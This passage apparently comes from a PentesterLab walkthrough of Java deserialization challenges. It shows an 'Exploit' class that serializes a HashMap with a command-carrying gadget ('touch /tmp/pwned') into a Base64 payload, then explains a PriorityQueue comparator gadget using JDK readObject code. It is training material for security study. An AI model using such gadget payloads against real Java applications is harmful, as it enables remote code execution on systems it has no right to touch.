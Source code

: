And the method `hash()` will call `hashCode()` on the `Object` `key`:

```java
package com.pentesterlab;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Exploit {
    public static void main(String[] args) {
        Map map = new HashMap<>();
        AnotherClass gadget = new AnotherClass("touch /tmp/pwned");
        map.put(gadget, "hacked");

        try {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(map);
            oos.close();
            System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

## java **Serialize** - 04

In this challenge, you need to leverage a `java.util.PriorityQueue` that will call the method `compare()` when it gets deserialized. Your "object generator" should look something like:

```java

      AnotherClass comparator = new AnotherClass();
      PriorityQueue priorityQueue = new PriorityQueue(2, comparator);

```

This works because the method `readObject()` of `java.util.PriorityQueue` calls the method `heapify()`:

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();
     s.readInt();
 
    SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Object[].class, size);
    final Object[] es = queue = new Object[Math.max(size, 1)];
     for (int i = 0, n = size; i < n; i++)
        es[i] = s.readObject();
    heapify();
}
```
